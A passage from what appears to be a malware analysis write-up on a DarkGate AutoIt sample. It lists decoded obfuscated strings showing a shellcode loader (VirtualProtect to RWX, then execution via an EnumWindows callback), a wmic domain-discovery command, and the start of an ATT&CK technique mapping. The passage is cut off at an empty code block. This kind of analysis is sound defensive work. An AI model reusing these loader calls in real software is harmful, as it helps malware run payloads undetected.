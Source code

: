 ```

![Decrypted](/public/images/darkgate-3-return-of-the-temp/decryptedblobs.png)
```
[
  {
    "label": "blob_1",
    "hex_input": "B5AF848998939A9EC2AC83868FB88F8B8EC2AC83868FA59A8F84C2AAB98998839A9EAC9F8686BA8B9E82C6CADBDCC3C6DDD3DADFDAC3C6C8B29BAEA39ABDADB3C8C3",
    "decoded": "_Encrypt(FileRead(FileOpen(@ScriptFullPath, 16),79050),\"XqDIpWGY\")"
  },
  {
    "label": "blob_2",
    "hex_input": "AE8686B99E989F899EA9988F8B9E8FC2C888939E8FB1DDD3DADFDAB7C8C3",
    "decoded": "DllStructCreate(\"byte[79050]\")"
  },
  {
    "label": "blob_3",
    "hex_input": "AE8686A98B8686C2C8818F98848F86D9D8C48E8686C8C6C8A8A5A5A6C8C6C8BC83989E9F8B86BA98859E8F899EC8C6C89A9E98C8C6AE8686B99E989F899EAD8F9EBA9E98C2CE9A9EC3C6C883849EC8C6DDD3DADFDACAC6C88E9D85988EC8C6DA92DEDAC6C88E9D85988EC0C8C6849F8686C3",
    "decoded": "DllCall(\"kernel32.dll\",\"BOOL\",\"VirtualProtect\",\"ptr\",DllStructGetPtr($pt),\"int\",79050 ,\"dword\",0x40,\"dword*\",null)"
  },
  {
    "label": "blob_4",
    "hex_input": "AE8686B99E989F899EB98F9EAE8B9E8BC2CE9A9EC6DBC6CE8E8B9E8BC3",
    "decoded": "DllStructSetData($pt,1,$data)"
  },
  {
    "label": "blob_5",
    "hex_input": "AE8686A98B8686C2C89F998F98D9D8C48E8686C8C6C883849EC8C6C8AF849F87BD83848E859D99C8C6C89A9E98C8C6AE8686B99E989F899EAD8F9EBA9E98C2CE9A9EC3C6C8869A8B988B87C8C6DAC3",
    "decoded": "DllCall(\"user32.dll\",\"int\",\"EnumWindows\",\"ptr\",DllStructGetPtr($pt),\"lparam\",0)"
  }
]
```

Additionally, this script will also stage the directory `C:\ProgramData\adcdffd\affbdbb`. It will be running `cmd.exe` to run the command:
``` "c:\windows\system32\cmd.exe" /c wmic ComputerSystem get domain > C:\ProgramData\adcdffd\affbdbb ```

I go to this directory and get the hashes of the files. Again, `Autoit3.exe` is just a legitimate script interpreter software file that is heavily abused by Darkgate. Also, the `ebccdca.a3x` is a copy of `script.a3x` based on both the hash and the script contents.

Also notable is that `script.a3x` will enumerate the system for installed security software, ironically also including G DATA:

![Enumeration](/public/images/darkgate-3-return-of-the-temp/enum-security.png)

## Tactics, Techniques, and Procedures (TTPs)
### Execution
**T1059.003 - Command and Scripting Interpreter: Windows Command Shell**:

`script.a3x` will invoke `cmd.exe` to enumerate domain information. 

**T1059.010 - Command and Scripting Interpreter: AutoHotKey & AutoIT**:

`AVKTray.exe` will execute `script.a3x` via `Autoit3.exe`, an AutoIt intepreter. 

### Discovery
**T1057 - Process Discovery & T1518.001 - Software Discovery: Security Software Discovery**:
```